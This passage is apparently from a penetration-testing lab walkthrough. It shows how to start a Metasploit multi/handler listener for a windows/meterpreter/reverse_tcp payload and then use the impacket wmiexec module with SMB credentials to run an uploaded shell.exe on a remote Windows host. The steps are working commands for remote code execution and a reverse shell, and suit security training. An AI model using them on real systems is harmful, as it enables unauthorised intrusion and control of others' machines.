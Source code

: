     - Now that the payload is on the remote system, you can execute it using the WMI module in Metasploit. Before doing that, though, you need to ensure that Metasploit is listening for your payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](Images/multihandler.PNG)

    - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that your listener is constantly listening and you can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)
